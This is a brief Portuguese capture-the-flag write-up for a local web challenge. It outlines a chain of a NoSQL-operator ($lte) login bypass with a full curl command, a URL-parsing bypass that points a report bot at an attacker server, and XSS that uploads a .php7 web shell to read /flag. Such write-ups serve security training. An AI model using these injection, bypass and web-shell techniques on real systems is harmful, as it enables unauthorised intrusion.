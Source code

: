 Writeup:

	1. Bypass do login com o operador $lte, os outros operadores estão bloqueados, então vai exigir do atacante pesquisa e atenção dos operadores restantes.
		1. Note que ao usar $lte, o atacante também deve estar atento que nas tentativas com 'a' e 'b' irá falhar, pois a senha começa com 'b'
		2.  curl -L -v -X POST --data "user=admin&pass[\$lte]=c" http://localhost/roadsec-web-1/web/login.php

	2. Entrar na tela de report.php e inserir uma url que dê bypass na restrição de http://127.0.0.1
		1. Bypass: http://127.0.0.1@<SERVIDOR_ATACANTE>
		2. Inserir uma URL com XSS fazendo POST de arquivo PHP com extensão .php7 no upload.php

	3. Com o upload o atacante terá shell na máquina
		1. Ler a flag em /flag

